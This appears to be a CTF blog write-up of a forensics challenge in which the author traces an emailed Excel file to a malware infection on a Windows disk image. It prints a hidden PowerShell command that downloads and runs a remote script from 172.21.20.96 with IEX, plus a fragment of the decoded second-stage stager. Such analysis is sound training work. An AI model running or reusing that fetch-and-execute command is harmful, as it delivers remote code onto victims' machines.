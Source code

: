 +++
author = "dree"
title = "idek CTF 2023"
date = "2022-01-24"
tags = [
    "OSINT", "Forensics"
]
+++

*Was in 2023, not 2022 since event delayed. Great CTF with a lot of challenges from the team **idek** ¯\_(ツ)_/¯. My team WolvSec came in **17th** out of **846** teams. I will be going over my 2 Forensics solves and 5 OSINT. Currently just Forensics 1, plan to add rest later!


<!--more-->

# HiddenGem Mixtape 1: Initial Access
Authors: `Bquanman`  
Points: **478**  
Solves: **47**

### Challenge Description:
We're pretty sure there's been a hack into our system. The incident is suspected to be caused by an employee opening a document file received via email even though he deleted it shortly afterwards. We managed to do a logical acquisition of data from his hard drive. However, when we open the document file, it looks empty, can you analyze what it contains?


### Approach

We are given a `.vhdx` file, which contains a Windows Image. To open in Autopsy, I double clicked the file on my Windows machine and imported that disk image. The first thing that struck my eye when doing this was the email saved onto the machine.

{{< img src="idek-CTF-2022/autopsyemail.png" >}}

The email HTML gives us the password `Privacy4411@2023!!!`. This can be used to open the attachment in the email, which gives us a file `Policy.xlsx`. In this file my teammates and I tried to find anything meaningful, even performing stego on the image of Tommy Xiaomi but with no success. I noticed a weird line on page 3, which was hidden, but it did not show correct output on google sheets since the file was converted. However, `doubledelete` was able to view the line
```
CMD.EXE /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://172.21.20.96/windowsupdate.ps1\");IEX $e
```
This can also be viewed on any.run when importing the file

{{< img src="idek-CTF-2022/anyrunoutput.png" >}}

This malicious command seems to have downloaded a file called `windowsupdate.ps1`. I searched this string in Autopsy, and found a command where a very long base64 string was downloaded from the Powershell logs. Decoding the b64 we an object that starts with:
```
(New-OBJECT MAnAGeMent.AUtOmaTiON.PsCreDEntIAL ' ', ('76492d111..)
```

We can run this into a powershell emulator to get the following output:

```
$bwqvRnHz99 = (104,116,116,112,115,58,47,47,112,97,115,116,101);
$bwqvRnHz99 += (98,105,110,46,99,111,109,47,104,86,67,69,85,75,49,66);
$flag = [System.Text.Encoding]::ASCII.GetString($bwqvRnHz99);
$s='172.21.20.96:8080';$i='eef8efac-321d465e-e9d053a7';
$p='http://';$v=Invoke-Web...
```

And there we see a `$flag` variable, signaling this is likely our flag. Running just that and printing we get a pastebin:

{{< img src="idek-CTF-2022/tiooutput.png" >}}

And we get the flag! As well as Resource: https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within

flag: `sdctf{morning_noon_and_night_I_meme}`
